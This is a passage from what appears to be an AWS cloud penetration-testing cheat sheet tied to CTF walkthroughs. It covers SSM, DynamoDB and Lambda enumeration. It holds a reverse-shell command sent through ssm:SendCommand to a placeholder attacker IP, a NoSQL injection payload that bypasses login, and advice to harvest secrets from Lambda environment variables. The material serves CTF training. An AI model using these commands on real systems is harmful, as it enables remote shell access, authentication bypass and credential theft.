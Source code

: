     ```
* **SSM (Systems Manager):**
    * Check managed instances:
        ```bash
        aws ssm describe-instance-information --profile <profile_name> --region <region>
        ```
    * Check for `ssm:SendCommand` permission, which can grant shell access.
        ```bash
        # Example of getting a reverse shell if permissions allow
        # Ensure nc listener and ngrok (or similar) are set up
        aws ssm send-command --instance-ids "<instance_id>" \
          --document-name "AWS-RunShellScript" --output text \
          --parameters commands="bash -i >& /dev/tcp/<your_ip>/<your_port> 0>&1" \
          --profile <profile_name> --region <region>
        # The BlackBox III example uses a curl to a reverse shell script
        ```

### DynamoDB

* **List Tables:**
    ```bash
    aws dynamodb list-tables --profile <profile_name> --region <region>
    ```
* **Scan Table for Data (especially for flags or sensitive info):**
    ```bash
    aws dynamodb scan --table-name <table_name> --profile <profile_name> --region <region>
    # Be cautious with large tables. Use --max-items and --starting-token for pagination if needed.
    ```
* **DynamoDB Injection (if web application directly uses input in ScanFilter):**
    The "BlackBox III" walkthrough shows a NoSQL injection in the `ScanFilter` parameter of a `dynamodb.scan` operation to bypass authentication.
    Original query structure:
    `{ "username": { "ComparisonOperator": "EQ", "AttributeValueList": [{"S": "user"}]}, "password": { "ComparisonOperator": "EQ", "AttributeValueList": [{"S": "pass"}]} }`
    Injection in username (and similarly in password): `none"}], "ComparisonOperator": "NE", "AttributeValueList": [{"S":"none`. This changes the logic to effectively `username != "none" AND password != "none"`.

### Lambda & Lambda Layers

* **Get Function Configuration & Environment Variables:**
    ```bash
    aws lambda list-functions --profile <profile_name> --region <region>
    aws lambda get-function-configuration --function-name <function_name> --profile <profile_name> --region <region>
    # Review environment variables for secrets (e.g., PASSWORD, HINT, ID, KEY). Base64 decode if necessary.
    ```
* **Get Function Policy (resource-based policy):**
    ```bash
    aws lambda get-policy --function-name <function_name> --profile <profile_name> --region <region>
    # Check who can invoke or manage the function.